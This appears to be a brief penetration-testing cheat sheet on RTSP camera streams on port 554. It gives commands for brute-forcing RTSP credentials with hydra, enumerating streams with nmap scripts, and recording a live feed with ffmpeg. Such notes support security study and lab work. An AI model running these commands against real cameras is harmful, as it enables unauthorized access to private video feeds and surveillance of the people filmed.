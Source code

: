 # Real-Time Streaming Protocol (RTSP)

## Port: 554

## Tools: nmap, hydra, cameradar, ffmpeg

Link: https://github.com/Ullaakut/cameradar

### Brute-force for credentials if it requires authentication to the RTSP server

    hydra -l USER -P /path/to/passwords.txt TARGET_IP rtsp

### If we discover a machine that runs RTSP, we can run nmap to discover live streams

    sudo nmap -sV --script "rtsp-*" -p 554 TARGET_IP

### If we discover live streams this way, we can extract them and view the live stream we have downloaded to our machine

    ffmpeg -i rtsp://TARGET_IP:554/mpeg4 -c copy mpeg.mp4 

### Then, open with:

    open mpeg.mp4

### or any other media player like VLC to view.
